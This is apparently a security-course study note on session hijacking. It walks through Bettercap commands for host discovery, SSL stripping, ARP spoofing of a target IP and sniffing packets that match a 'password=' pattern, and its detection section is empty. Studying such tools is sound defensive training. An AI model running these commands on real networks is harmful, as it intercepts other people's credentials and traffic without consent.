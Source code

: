 # 11 Session Hijacking

## Perform
  
### 3 phases:
 - Tracking the Connection
 - Desynchronizing the Connection
 - Injecting the Attacker’s Packet

### Zed Attack Proxy (ZAP)
  Like burpsuite.

### Bettercap (Linux)
``` #bettercap -h ```
- check options

``` #bettercap -iface eth0 ```
- -iface: specifies the interface to bind to (in this example, eth0)
- interactive mode

``` [ip] >> help ```\
in interactive mode of bettercap.\
view the list of available modules of bettercap.
- any.proxy
- api.rest
- arp.spoof
- ble.recon
- caplets
- dhcp6.spoof
- dns.spoof
- events.stream
- gps
- https.proxy
- https.server
- mac.changer
- mysql.server
- net.probe
- net.recon
- net.sniff
- packet.proxy
- syn.scan
- tcp.proxy
- ticker
- ui
- update
- wifi
- wol

``` [ip]>> net.probe on ```\
This module will send different types of probe packets to each IP in the current subnet\
for the net.recon module to detect them.

``` [ip]>> net.recon on ```\
This module is responsible for periodically reading the system ARP table to detect new hosts on the network.

``` [ip]>> set http.proxy.sslstrip true ```\
This module enables SSL stripping.\
SSL stripping: Downgrade from https to http.

``` set arp.spoof.internal true ```\
This module spoofs the local connections among computers of the internal network.

``` set arp.spoof.targets 10.10.10.10 ```\
This module spoofs the IP address of the target host.

``` set net.sniff.regexp ‘.*password=.+’  ```\
This module will only consider the packets sent with a payload matching the given regular expression

## Detect
  
